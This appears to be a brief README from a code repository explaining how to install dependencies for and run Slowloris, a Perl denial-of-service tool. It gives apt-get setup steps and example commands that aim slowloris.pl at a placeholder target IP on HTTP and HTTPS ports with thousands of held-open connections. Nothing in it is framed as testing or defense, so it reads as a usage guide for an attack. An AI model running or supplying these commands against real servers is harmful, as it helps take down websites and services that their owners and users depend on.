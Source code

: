 # Configuration Slowloris
Requirements:
------
sudo apt-get update  
sudo apt-get install perl
sudo apt-get install libwww-mechanize-shell-perl
sudo apt-get install perl-mechanize

Example Configuration :
-----
```
cd /thePathToYourSlowloris.plFile
./slowloris.pl
HTTP -> perl slowloris.pl -dns [IP_TARGET] -port 80 -timeout 200 -num 5000 -cache
HTTPS -> perl slowloris.pl -dns [IP_TARGET] -port 443 -timeout 200 -num 5000 -cache
```
